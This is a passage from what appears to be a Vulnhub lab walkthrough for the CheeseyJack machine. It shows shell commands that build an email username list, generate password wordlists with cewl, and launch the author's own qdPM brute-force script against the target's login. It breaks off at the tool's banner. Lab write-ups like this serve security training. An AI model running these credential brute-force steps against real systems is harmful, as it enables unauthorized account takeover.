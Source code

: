 Let's create a usernames list containt with the email addresses since the usernames should be an email address.


```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack]
└─$ nano email.txt

┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack]
└─$ cat email.txt 
info@cheeseyjack.local
ch33s3m4n@cheeseyjack.local
```
We need a password list to brute force the credentials. My strategy is to create a wordlist based on the main website and on the project management tool.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack]
└─$ cewl http://$ip/project_management -d 4 -m 4 -w passwords1.txt
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
                                                                                                                   
┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack]
└─$ cewl http://$ip -d 4 -m 4 -w passwords2.txt 
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
                                                                                                                   
┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack]
└─$ cat passwords1.txt passwords2.txt > passwords.txt
  
```
Since this application is something I encountered earlier and the results where not satisified with Hydra, I have written my own script for this tool. This can be found on my [Github](https://github.com/eMVee-NL/Bruteforcer-qdPM). The script can be easily cloned into your machine and then we need to change the working directory.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack]
└─$ git clone https://github.com/eMVee-NL/Bruteforcer-qdPM.git
Cloning into 'Bruteforcer-qdPM'...
remote: Enumerating objects: 27, done.
remote: Counting objects: 100% (27/27), done.
remote: Compressing objects: 100% (27/27), done.
remote: Total 27 (delta 11), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (27/27), 137.77 KiB | 5.10 MiB/s, done.
Resolving deltas: 100% (11/11), done.

┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack]
└─$ cd Bruteforcer-qdPM 
```
After changing the working directory and having the required input files ready, the script could be started.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/CheeceyJack/Bruteforcer-qdPM]
└─$ python3 Bruteforcer-qdPM-9-1.py -url http://$ip/project_management/ -u ../email.txt  -p ../passwords.txt

        ____             __       ____                                       ______  __  _______   ___
       / __ )_______  __/ /____  / __/___  _____________  _____   ____ _____/ / __ \/  |/  / __ \ <  /
      / __  / ___/ / / / __/ _ \/ /_/ __ \/ ___/ ___/ _ \/ ___/  / __ `/ __  / /_/ / /|_/ / /_/ / / / 
     / /_/ / /  / /_/ / /_/  __/ __/ /_/ / /  / /__/  __/ /     / /_/ / /_/ / ____/ /  / /\__, / / /  
    /_____/_/   \__,_/\__/\___/_/  \____/_/   \___/\___/_/      \__, /\__,_/_/   /_/  /_//____(_)_/   
                                                                  /_/                                       
                      __  ____   __       
```